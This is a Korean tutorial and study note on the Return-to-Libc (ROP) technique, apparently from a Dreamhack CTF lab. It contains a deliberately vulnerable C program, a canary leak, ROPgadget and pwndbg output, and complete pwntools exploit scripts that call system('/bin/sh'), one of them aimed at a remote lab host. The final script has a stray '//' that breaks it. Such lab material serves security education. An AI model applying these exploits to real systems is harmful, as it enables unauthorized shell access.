

# Exploit Tech: Return to Library

# Return to Library

## Return to Library

---

NX로 인해 공격자가 버퍼에 주입한 셸 코드를 실행하기는 어려워졌지만, 오버플로우 취약점으로 반환 주소를 덮는 것은 여전히 가능했다. 따라서 이를 우회하기 위해서 실행 권한이 남아있는 코드 영역으로 반환 주소를 덮는 공격 기법을 고안했다.

프로세스에 실행 권한이 남아 있는 메모리 영역은 일반적으로 **바이너리의 코드 영역**과 바이너리가 참조하는 **라이브러리의 코드 영역**이다.

이중 **라이브러리의 코드** 영역에는 공격에 유용한 함수들이 존재한다. libc의 함수들로 NX를 우회하고 셸을 획득하는 공격 기법을 Return to Libc 라고했다. 다른 라이브러리도 공격에 활용될 수 있으므로 이 공격 기법은 **Return to Library** 라고도 불린다. Return to PLT도 있는데 이는 RTL의 하위 분류이다.

아래 코드를 통해 실습해보자.

```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <stdlib.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

# 분석

## 보호 기법

---

checksec 명령어로 바이너리에 적용된 보호 기법을 확인해보자.

```c
$ checksec rtl
[*] '/home/dreamhack/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

카나리가 존재하고, NX가 적용되어 있다. 리눅스 커널에서 ASLR은 기본으로 적용되어 있으므로, 특별히 언급하지 않는다면 ASLR은 적용된 것 이다.

## 코드 분석

---

### “/bin/sh”를 바이너리에 추가

rtl.c의 7번째 줄은 “/bin/sh”를 바이너리에 추가하기 위해 작성된 코드이다. ASLR이 적용돼도 PIE가 적용되지 않으면 코드 세그먼트와 데이터 세그먼트의 주소는 고정되므로, “/bin/sh”의 주소는 고정되어 있다.

### system 함수를 PLT에 추가

rtl.c의 16번째 줄은 PLT에 system을 추가하기 위해 작성된 코드이다.

ELF의 PLT에는 ELF가 실행하는 라이브러리 함수만 포함된다. system 함수를 프로그램에서 사용하였으므로 PLT에 system 함수가 올라가서 사용가능하다.

이때 ASLR에 의해 랜덤화 되는 것은 외부에서 매핑되는 libc, 스택, 힙과 같은 영역이다. (즉, 동적으로 변하는 영역)
따라서 바이너리 파일에 포함된 PLT의 주소는 고정되어 있으므로, 무작위의 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법으로 라이브러리 함수를 실행할 수 있다.

### 버퍼 오버플로우

rtl.c의 18번째 줄에서 27번째 줄까지는 두 번의 오버플로우로 스택 카나리를 우회하고, 반환 주소를 덮을 수 있도록 작성된 코드이다.

# 익스플로잇 설계

## 익스플로잇 설계

---

### 1. 카나리 우회

첫 번째 입력에서 적절한 길이의 데이터를 입력하면 카나리를 구할 수 있다.

### 2. rdi 값을 “/bin/sh”의 주소로 설정 및 셸 획득

카나리를 구했으면, 이제 두 번째 입력으로 반환 주소를 덮을 수 있습니다. 그러나 NX로 인해 지난 강의에서와 같이 buf에 셸코드를 주입하고 이를 실행할 수는 없다.

공격을 위해 알고 있는 정보를 정리해보면 다음과 같다.

- “/bin/sh”의 주소를 안다.
- system 함수의 PLT 주소를 안다 → system 함수를 호출할 수 있다.

system(”/bin/sh”) 을 호출하면 셸을 획득할 수 있다. x86-64의 호출 규약에 따르면 이는 rdi = “/bin/sh” 주소인 상태에서 system 함수를 호출한 것과 같다.

이 예제에서는 “/bin/sh”의 주소를 알고, system 함수를 호출할 수 있으므로 “/bin/sh”의 주소를 rdi의 값으로 설정할 수 있다면 system(”/bin/sh”)를 실행할 수 있다. 이를 위해서는 리턴 가젯을 활용해야한다.

## 리턴 가젯

---

**리턴 가젯(Return gadget)**은 **ret**으로 끝나거나 **jmp**로 끝나는 조각들을 보여주는 명령어이다.
pwntools 설치 시 함께 설치되는 ROPgadget 명령어로 가젯을 구할 수 있다.

```c
dong@BOOK-52INSEHGSS:~/dreamhack/NX_ASLR/Return_to_library$ ROPgadget --binary rtl
Gadgets information
============================================================
0x000000000040066e : adc byte ptr [rax], ah ; jmp rax
0x0000000000400639 : add ah, dh ; nop dword ptr [rax + rax] ; repz ret
0x00000000004005f7 : add al, 0 ; add byte ptr [rax], al ; jmp 0x4005a0
0x00000000004005d7 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x4005a0
0x000000000040063f : add bl, dh ; ret
0x000000000040085d : add byte ptr [rax], al ; add bl, dh ; ret
...
Unique gadgets found: 83
```

버퍼에 셸 코드를 넣어 셸을 획득하는 것은 내가 원하는 코드를 넣어 얻는 것이므로 내가 원하는 대로 설정할 수 있었다.
하지만 이 실습에서는 return 주소를 system@plt로 변경하여도 실행되는 것은 system 함수밖에 없다.
즉 내가 rdi의 값이나 다른 그 밖의 명령어를 실행하기 힘들다.

따라서 이때 리턴 가젯을 이용하여 pop rdi; ret 같은 명령어 라인이 있는 곳으로 이동한다면 rdi의 값을 변경하고 return을 이용해서 원하는 곳으로 호출을 변경할 수 있다.

리턴 가젯은 반환 주소를 덮는 공격의 유연성을 높여서 익스플로잇에 필요한 조건을 만족할 수 있도록 돕는다.

### 예시

pop rdi는 RSP가 가리키는 스택 맨 위의 갚을 RDI에 넣는 명령이다.
ret이 실행되면 스택에서 값을 하나 꺼내고 RSP가 8 바이트 올라간다.
가젯 주소로 점프한 직후 상태:



이 상태에서 pop rdi가 실행되면, RSP가 가리키는 값(”/bin/sh” 주소)을 RDI에 넣고 RSP가 8바이트 증가한다.


그 다음 ret이 실행되면 RSP가 가리키는 system@plt로 점프한다. 이때 RDI에는 이미 “/bin/sh” 주소가 들어있으니까 system(”/bin/sh”)가 실행된다.

# 익스플로잇

## 카나리 우회

---

나의 코드

```c
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process("./rtl")

context.arch = 'amd64'

payload = b'A'*(0x38 + 1)

p.sendafter(b"Buf:", payload)
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))
slog("Canary", cnry)

p.interactive()
```

드림핵 코드

```c
#!/usr/bin/env python3
# Name: rtl.py
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)
```

## 리턴 가젯 찾기

---

리턴 가젯을 찾는 방법은 다양하지만, 일반적으로 ROPgadget을 사용한다.

다음 명령어로 필요한 가젯을 찾을 수 있다. --re 옵션을 사용하면 정규표현식으로 가젯을 필터링 할 수 있다.
--binary 옵션은 가젯을 검색할 바이너리를 설정하는 옵션이다.
왼쪽에 16 진수로 뜨는 숫자가 가젯의 주소이다.

```c
$ ROPgadget --binary ./rtl --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret
```

## 익스플로잇

---

다음과 같이 가젯을 구성하고, 실행하면 system(”/bin/sh”)를 실행할 수 있다.

```c
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

그냥 /bin/sh 라는 문자열을 넣어주면 되는거 아닌가? 왜 바이너리에서 찾아서 넣지?
→ system 함수는 문자열을 받는게 아니라 문자열의 주소를 받는다. 이때 바이너리 내부의 /bin/sh 는 ASLR에 의해 랜덤화 되지 않지만, 스택에 /bin/sh 문자열을 넣어서 그 주소를 찾으려면 ASLR에 의해 랜덤화된 주소를 찾아야한다.

**/bin/sh의 주소는 pwndbg로 찾을 수 있다.**
이때 두개의 /bin/sh 문자열이 나오는데 어떤 것을 써도 상관 없고, 3번째 /bin/sh는 라이브러리 함수를 가져다 쓰는 것이므로 사용할 수 없다. (실행시마다 랜덤화됨)

```c
pwndbg> search /bin/sh
rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
libc-2.27.so    0x7ff36c1aa0fa 0x68732f6e69622f /* '/bin/sh' */
```

**system 함수의 PLT 주소는 pwndbg 또는 pwntools의 API로 찾을 수 있다.**

```c
pwndbg> plt
0x4005b0: puts@plt
0x4005c0: __stack_chk_fail@plt
0x4005d0: system@plt
0x4005e0: printf@plt
0x4005f0: read@plt
0x400600: setvbuf@plt
```

```c
pwndbg> info func @plt
All functions matching regular expression "@plt":

Non-debugging symbols:
0x00000000004005b0  puts@plt
0x00000000004005c0  __stack_chk_fail@plt
0x00000000004005d0  system@plt
0x00000000004005e0  printf@plt
0x00000000004005f0  read@plt
0x0000000000400600  setvbuf@plt
```

가젯으로 구성된 페이로드를 작성하고, 이 페이로드로 반환 주소를 덮으면 셸을 획득할 수 있다.

여기서 한 가지 주의할 점은, system 함수로 rip가 이동할 때, 스택은 반드시 0x10 단위로 정렬되어 있어야 한다. 이는 system 함수 내부의 movaps 명령어 때문인데, 이 명령어는 스택이 0x10 단위로 정렬되어 있지 않으면 Segmentation Fault를 발생시킨다.

스택은 8바이트 단위로 커지거나 작아지기 때문에 만약 코드가 정확한데 Segmentation Fault가 발생한다면, 8 바이트 뒤로 미뤄보아 해결할 수 있다. 이를 위해서 아무 의미 없는 가젯 (no-op gadget)을 system 함수 전에 추가할 수 있다. system 함수 후에 쓰면은 rsp가 어긋난 상태로 system 함수에 진입하므로 의미가 없다.

이때 사용하는 아무 의미 없는 가젯은 ret이다.

나의 코드

```c
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote("host3.dreamhack.games", 12233)

context.arch = 'amd64'

payload = b'A'*(0x38 + 1)

p.sendafter(b"Buf:", payload)
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))
slog("Canary", cnry)

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8 + p64(0x400596) + p64(0x400853) + p64(0x400874) + p64(0x4005d0)

p.sendlineafter(b'Buf:', payload)

p.interactive()
```

드림핵 코드

```c
$ ROPgadget --binary=./rtl | grep ": ret"
0x0000000000400596 : ret
```

```c
#!/usr/bin/env python3
# Name: rtl.py
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
system_plt = e.plt['system'] //
binsh = 0x400874
pop_rdi = 0x0000000000400853
ret = 0x400596 # ROPgadget --binary=./rtl | grep ": ret"

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
payload += p64(ret)  # align stack to prevent errors caused by movaps
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter(b'Buf: ', payload)

p.interactive()
```

e = elf(’./rtl’)
system_plt = e.plt[’system’]
이렇게 system 함수의 PLT 주소에 접근할 수 있다.